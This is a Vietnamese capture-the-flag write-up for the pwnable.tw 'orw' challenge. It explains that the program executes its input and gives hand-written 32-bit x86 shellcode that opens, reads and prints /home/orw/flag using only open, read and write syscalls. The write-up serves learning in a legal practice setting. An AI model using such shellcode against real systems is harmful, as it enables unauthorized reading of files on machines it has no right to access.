




# pwnable.tw - orw

Read the flag from `/home/orw/flag`.

Only `open` `read` `write` syscall are allowed to use.

`nc chall.pwnable.tw 10001`

# 1) Analysis and find Bug

Đầu tiên ta kiếm tra các secure flag và xem thông tin cơ bản của file.



Chương trình khá đơn giản, nó yêu cầu một chuỗi đầu vào và cuối hàm main thì gọi tới con trỏ có giá trị là địa chỉ của chuỗi mà ta nhập vào. 



# 2) Idea

Ở phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write`, khi chúng ta nhập input là shellcode thì cuối hàm main chương trình sẽ thực hiện các công việc mà shellcode đó yêu cầu. Ở đây ta sẽ dùng `syscall_open` để mở file flag ở `/home/orw/flag` và dùng `syscall_read`, `syscall_write` để đọc và ghi flag ra `terminal`, còn về shellcode 32bit thì ta phải tự viết vì đây không phải là shellcode execute nên không phổ biến để chọn.

# 3) Exploit

Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành mã shellcode. Tôi dùng tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) để làm điều đó.



# 4) Source code and get Flag

Tiến hành viết file [exploit.py](exploit.py) và khai thác:



------------------------------------------------------
